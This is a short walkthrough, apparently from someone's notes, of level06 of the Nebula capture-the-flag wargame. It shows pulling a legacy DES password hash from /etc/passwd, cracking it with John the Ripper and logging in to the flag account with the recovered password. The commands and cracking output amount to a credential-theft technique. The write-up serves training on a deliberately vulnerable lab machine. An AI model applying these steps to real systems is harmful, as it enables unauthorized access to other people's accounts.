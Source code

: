* Level06
  :PROPERTIES:
  :CUSTOM_ID: level06
  :END:
** Task
   :PROPERTIES:
   :CUSTOM_ID: task
   :END:

#+begin_quote
  The flag06 account credentials came from a legacy unix system.
#+end_quote

#+begin_quote
  To do this level, log in as the level06 account with the password
  level06. Files for this level can be found in /home/flag06.
#+end_quote

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:
#+begin_example
level06@nebula:/home/flag06$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
#+end_example

putting that into john

#+begin_example
{17-01-09 10:13}10d1336738e8:/opt/Data root# emacs flag06passwd
{17-01-09 10:13}10d1336738e8:/opt/Data root# john ./flag06passwd
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 AVX-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 DONE 2/3 (2017-01-09 10:13) 4.761g/s 3571p/s 3571c/s 3571C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
#+end_example

password is =hello=

#+begin_example
level06@nebula:/home/flag06$ su flag06
Password: hello
sh-4.2$ getflag
You have successfully executed getflag on a target account
#+end_example
